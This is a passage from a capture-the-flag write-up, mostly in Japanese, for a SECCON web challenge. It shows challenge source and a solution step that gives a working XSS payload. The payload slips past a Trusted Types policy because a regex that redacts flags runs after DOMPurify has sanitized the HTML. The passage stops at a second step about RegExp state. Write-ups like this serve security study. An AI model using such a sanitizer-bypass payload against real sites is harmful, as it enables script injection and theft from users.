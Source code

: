 ```html
      document.cookie = "FLAG=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
      get("message").innerHTML = message;

      const emoji = get(params.get("emoji"));
      get("message").innerHTML = get("message").innerHTML.replace(/{{emoji}}/g, emoji);
    };

    document.addEventListener("DOMContentLoaded", async () => {
      await init();
      await main();
    });
  </script>
</body>
</html>
```

### Solution

#### Step 1: XSS with bypassing Trusted Types

Trusted Typesの設定は以下のようになっていて、`innerHTML`への代入時に必ず`createHTML`が呼ばれるようになっています:
```javascript
    trustedTypes.createPolicy("default", {
      createHTML: (unsafe) => {
        return DOMPurify.sanitize(unsafe)
          .replace(/SECCON{.+}/g, () => {
            // Delete a secret in RegExp
            "".match(/^$/);
            return "SECCON{REDACTED}";
          });
      },
    });
```

例えば、以下のような文字列でbypassすることでXSSができます:
```javascript
> createHTML('SECCON{x<p id="}<img src=0 onerror=console.log(1)>"></p>')
'SECCON{REDACTED}<img src=0 onerror=console.log(1)>"></p>'
```

ただし、
```javascript
document.cookie = "FLAG=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
```
でcookieが削除されるため、`document.cookie`からフラグを盗むことはできません。

#### Step 2: RegExp in DOMPurify

ところで、`createHTML`内の
```javascript
// Delete a secret in RegExp
"".match(/^$/);
```
の処理は何のために行われているのでしょうか？

